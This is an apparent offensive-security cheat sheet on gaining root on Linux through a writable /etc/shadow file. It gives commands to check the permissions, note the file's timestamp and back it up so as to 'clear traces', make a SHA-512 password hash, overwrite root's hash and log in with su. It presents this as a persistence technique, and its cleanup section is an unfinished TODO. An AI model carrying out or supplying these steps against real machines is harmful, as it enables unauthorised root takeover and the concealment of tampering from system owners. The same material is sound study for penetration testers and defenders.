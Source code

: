 # Living off the Land

## Weak File Permissions - Writable `/etc/shadow`

Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll never find it. Yet you can use this method as a persistence technique yet it's not OPSEC safe to do so but hey you'll might need it under certain circumstances.

## 01 - Detect

```
$ ls -l /etc/shadow
```

## 02 - Exploit

Before resetting the password. Take note of the timestamp to clear traces ahead of time.

```
$ stat /etc/shadow
```

Backup the shadow file. To clear traces ahead of time.

```
$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow
```

### 2.1 - Overwrite Password via Hash Digest

#### 2.1.1 - Mkpasswd

```
$ mkpasswd -m sha-512 newpass1234
```

#### 2.1.2 - Python Crypt Module

```
$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'
```

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with `$6$` into a new one that was previously generated.

Then try to authenticate and you're root.

```
$ su root
```

## 03 - Cleanup

TODO: Fill in this info

```
$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)